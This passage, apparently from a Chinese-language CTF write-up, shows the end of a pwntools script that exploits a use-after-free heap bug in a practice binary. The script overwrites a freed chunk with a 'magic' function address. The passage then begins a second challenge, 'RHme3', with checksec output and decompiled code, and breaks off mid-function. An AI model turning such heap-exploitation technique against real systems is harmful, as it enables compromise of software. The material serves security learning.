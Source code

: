 		p.recvuntil('Your choice :')

		p.sendline('3')

		p.recvuntil('Index :')

		p.sendline(str(index))

		return

	context.terminal = ['terminator','-x','sh','-c']

	pwnlib.gdb.attach(p)

	magic_addr=0x08048986

	add(32,'aaaa')

	add(32,'cccc')

	delete(0)

	delete(1)

	add(8,p32(magic_addr))

	print_(0)

	p.interactive()

## **RHme3**

先查保护

	gef➤ checksec

	[+] checksec for '/home/katrina/Desktop/RHme3'

	Canary : Yes

	NX : Yes

	PIE : No

	Fortify : No

	RelRO : Partial

就开了Canary和NX。Ida里看一下

	int __cdecl main(int argc, const char **argv, const char **envp)

	{

		int v3; // ST0C_4

		bool v5; // [rsp+7h] [rbp-9h]

		v5 = 0;

		setbuf(stdout, 0LL);

		puts("Welcome to your TeamManager (TM)!");
